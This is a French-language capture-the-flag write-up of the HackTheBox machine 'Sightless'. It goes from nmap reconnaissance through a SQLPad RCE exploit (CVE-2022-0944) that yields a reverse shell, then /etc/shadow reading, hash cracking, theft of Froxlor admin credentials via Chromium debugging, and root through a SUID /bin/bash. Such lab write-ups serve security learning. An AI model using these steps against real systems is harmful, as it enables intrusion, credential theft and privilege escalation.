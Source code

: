 ```yaml
---
title: Sightless
tags: [HackTheBox, Facile, Linux, SQLPad, Froxlor, Docker]
style: border
color: htb
comments: false
description: Sixième semaine de la saison 6 "HEIST"
created: 14/09/2024
---
```

> **IMPORTANT** : Ce compte-rendu a été rédigé la semaine où la machine était active durant la saison, mais publié à la fin de la saison afin de ne pas impacter son déroulement conformément aux [règles de la plateforme](https://help.hackthebox.com/en/articles/5188925-streaming-writeups-walkthrough-guidelines)

Lien vers l'épreuve : <https://app.hackthebox.com/machines/Sightless>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=hackthebox)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du site](#analyse-du-site)
* [Exploration](#exploration)
* [Elevation de privilèges](#elevation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A sightless.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 15:21 CEST
Nmap scan report for sightless.htb (10.10.11.32)
Host is up (0.027s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/14%Time=66E58DFB%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20
SF:Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20
SF:try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x
SF:20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.56 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique qu'il y a un serveur {% include dictionary.html word="FTP" %} sur le port 21 (qui ne semble pas accessible par les utilisateurs anonymes), un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur Nginx sur le port 80

## Analyse du site

Une rapide analyse du site nous indique que le serveur utilise SQLPad et Froxlor. Nous allons pouvoir chercher des vulnérabilités sur ces outils

{% include elements/figure.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_sightless.png" caption="Les services proposés" %}

En explorant SQLPad, il n'apparaît pas de nécessité de connexion pour y accéder. La version utilisée 6.10.0 est vulnérable à l'injection de code, documentée dans le [CVE-2022-0944](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb).

Pour exploiter cette vulnérabilité, nous utilisons le code fourni par l'utilisateur [0xRoqeeb](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) sur Github

Pour l'utiliser, nous lançons le programme avec la commande :

```bash
python3 exploit.py http://sqlpad.sightless.htb 10.10.14.84 9000
Response status code: 400
Response body: {"title":"connect ECONNREFUSED 127.0.0.1:3306"}
Exploit sent, but server responded with status code: 400. Check your listener.
```

En utilisant {% include dictionary.html word="Netcat" %}, nous obtenons un *{% include dictionary.html word="reverse-shell" %}*

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.14.84] from (UNKNOWN) [10.10.11.32] 33330
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad#
```

## Exploration

Bien que nous soyons root sur la machine, il apparaît que nous sommes en réalité dans container Docker

```bash
ls -hal /
total 88K
drwxr-xr-x   1 root root 4.0K Aug  2 09:30 .
drwxr-xr-x   1 root root 4.0K Aug  2 09:30 ..
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
[... expurgé pour brièveté ...]
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint
[... expurgé pour brièveté ...]
```

Nous allons donc devoir trouver un moyen d'échapper à l'environnement, et atteindre le serveur qui fait tourner cet outil.

En explorant le container, nous constatons qu'il existe un compte pour un utilisateur "michael". Nous pouvons récupérer le hash de son mot de passe ainsi que celui du compte root en lisant le fichier /etc/shadow

```bash
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTIT[... expurgé ...]0LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
[... expurgé pour brièveté ...]
michael:$6$mG3Cp2VPGY.FDE8u$KVWVI[... expurgé ...]aFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Nous récupérons les hashes dans un fichier texte, et nous lançons {% include dictionary.html word="Hashcat" %} afin de récupérer les mots de passe.

```bash
hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTIT[... expurgé ...]0LGaepC3ch6Bb2z/lEpBM90Ra4b.:b[...expurgé...]e
michael:$6$mG3Cp2VPGY.FDE8u$KVWVI[... expurgé ...]aFYuJa6DUh/pL2IJD/:i[...expurgé...]e
```

Bien que la tentative de connexion au compte root soit infructueuse, nous sommes parvenu à nous connecter en {% include dictionary.html word="SSH" %} avec le mot de passe récupérer pour Michael

```bash
ssh root@sightless.htb
root@sightless.htb's password: 
Permission denied, please try again.
root@sightless.htb's password: 

ssh michael@sightless.htb
michael@sightless.htb's password: 
Last login: Sat Sep 14 14:42:08 2024 from 10.10.14.102
michael@sightless:~$
```

Nous pouvons récupérer le flag user :

```bash
cat user.txt 
bd6ac9[...expurgé...]b7e8ea
```

## Elevation de privilèges

L'utilisateur ne peut pas faire de commande {% include dictionary.html word="sudo" %}, la crontab n'est pas alimentée. La recherche de binaires disposant de droits particuliers ne donne pas de résultat intéressant non plus.

En revanche, en listant les ports ouverts, nous constatons que le port 8080 est ouvert :

```bash
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
[... expurgé pour brièveté ...]
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN
[... expurgé pour brièveté ...]
```

Nous ouvrons donc une connexion {% include dictionary.html word="SSH" %} avec redirection de port pour pouvoir analyser le contenu.

Le service ouvert est Froxlor, et nécessite des identifiants

{% include elements/figure.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_Froxlor.png" caption="Accueil de Froxlor" %}

Nous tentons d'utiliser la payload du [CVE-2024-34070](https://github.com/advisories/GHSA-x525-54hf-xr53) sans succès, sûrement dû à l'absence d'interaction par un administrateur.

En tentant d'exploiter une faille de Google Chrome / Chromium avec la commande `chrome://inspect/#devices` et en ajoutant les ports ouverts (et forwardés) dans le menu *Configure* nous observons des actions de connexion sur l'outil Froxlor :

{% include elements/figure.html image="/images/HTB/20240914/Capture_ecran_2024-09-14_Chromium.png" caption="Chromium nous permet d'observer des actions sur l'outil Froxlor" %}

En cliquant sur "inspect" nous pouvons accéder aux outils d'analyse du réseau de Chromium où nous trouvons une page `index.php` qui contient en *payload* les données de connexions pour Froxlor :

```txt
loginname: admin
password: For[... expurgé ...]Admin
dologin:
```

Nous pouvons enfin accéder à l'outil :

{% include elements/figure.html image="/images/HTB/20240914/VirtualBox_Kali Hack_14_09_2024_19_26_26.png" caption="Interface de l'outil Froxlor" %}

Depuis l'onglet PHP / PHP-FPM versions nous pouvons ajouter une commande lors du redémarrage de php-fpm. Dans le but de devenir root sur la machine, nous optons pour `chmod 4777 /bin/bash` afin de permettre de devenir root en exécutant `/bin/bash -p` en étant connecter en tant que Michael.

En redémarrant le service PHP-FPM, le binaire /bin/bash a bien changé de droits

```bash
# Avant
ls -hal /bin/bash
-rwxr-xr-x 1 root root 1.4M Mar 14  2024 /bin/bash

# Après
ls -hal /bin/bash
-rwsrwxrwx 1 root root 1.4M Mar 14  2024 /bin/bash
```

Nous pouvons élever nos droits et devenir root. Ainsi nous pouvons récupérer le flag root.txt

```bash
/bin/bash -p
bash-5.1# id
uid=1000(michael) gid=1000(michael) euid=0(root) groups=1000(michael)
bash-5.1# cat /root/root.txt 
6c41fa[... expurgé ...]685ef4
```
